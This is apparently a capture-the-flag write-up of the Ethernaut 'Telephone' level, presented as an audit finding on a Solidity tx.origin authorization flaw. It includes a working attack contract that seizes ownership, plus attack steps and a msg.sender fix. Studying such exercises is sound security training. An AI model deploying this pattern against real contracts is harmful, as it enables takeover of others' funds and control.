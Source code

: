 #### Claim ownership of the contract below to complete this level.

## Summary
The `Telephone::changeOwner` function gives ownership of the contract. The only required condition is `tx.origin != msg.sender` which can be easily bypassed.

```solidity
function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
        owner = _owner;
    }
}
```

## Vulnerability Detail
The only required condition is `tx.origin != msg.sender` in the `Telephone::changeOwner` functon can be easily bypassed.

The deployed malicious contract:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./ITelephone.sol";

contract TelephoneAttack {
    address public telephoneAddress;

    constructor(address _telephoneAddress) {
        telephoneAddress = _telephoneAddress;
    }

    function changeOwnerToAttackerAddress() public {
        ITelephone telephoneContract = ITelephone(telephoneAddress);

        telephoneContract.changeOwner(msg.sender);
    }
}
```

Attack scenario:
1. An attacker deploys a malicious contract `TelephoneAttack` which has an `changeOwnerToAttackerAddress()` function. 
2. The attacker calls the `changeOwnerToAttackerAddress()` function. The function itself calls the `changeOwner()` function and updates the owner of the `Telephone` contract to be the attacker.
3. The condition `tx.origin != msg.sender` is bypassed easily, since the tx.origin is not the msg.sender now.
4. The attacker is now the new owner of the contract and do whatever they want.

## Impact
High. This breaks a core contract functionality. The attacker can become the owner of the contract and can do whatever they want without any constraints.

## Code Snippet


## Tools Used
Remix IDE, Manual Review

## Recommendation
Avoid using `tx.origin` for authorization. Always use `msg.sender`.
Consider using OpenZeppelin's `Ownable`.
